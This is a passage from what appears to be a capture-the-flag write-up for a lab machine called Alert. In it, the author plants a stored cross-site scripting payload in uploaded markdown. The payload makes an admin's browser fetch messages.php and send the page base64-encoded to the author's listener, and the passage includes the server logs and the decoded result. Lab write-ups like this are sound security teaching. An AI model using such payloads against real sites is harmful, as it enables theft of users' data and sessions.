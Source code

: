 There are requests at my webserver from Alert:

```
10.10.11.44 - - [19/Mar/2025 18:43:28] "GET /script.js HTTP/1.1" 200 -
10.10.11.44 - - [19/Mar/2025 18:43:29] code 404, message File not found
10.10.11.44 - - [19/Mar/2025 18:43:29] "GET /from_script/ HTTP/1.1" 404 -

```

The first is getting the script, and then the second is from the script running. There’s no cookie, which means either the user doesn’t have one, or it is marked as `http_only`.

#### messages.php

The `messages.php` file returned empty when I visited. I’m curious to see if the admin is able to see anything different. I’ll craft an injection pageload that will read `messages.php` and send me the response.

A lot of times it’s easier to leave the injection in place and just update something like `script.js` on my host. In this case, the uploaded markdown is cleaned up fairly regularly (I don’t really see why - it’s not exposing anything). So I’ll just move to putting the script directly inside the markdown.

To have the admin fetch `/messages.php` and return the page to me, I’ll use:

```

### load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>

```

I’ll upload that, and send the link to the admin, and the following request reaches my Python webserver:

```
10.10.11.44 - - [19/Mar/2025 21:12:21] "GET /exfil?body=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg== HTTP/1.1" 404 -

```

The resulting page is very simple:

```

oxdf@hacky$ echo "PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==" | base64 -d
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>

```
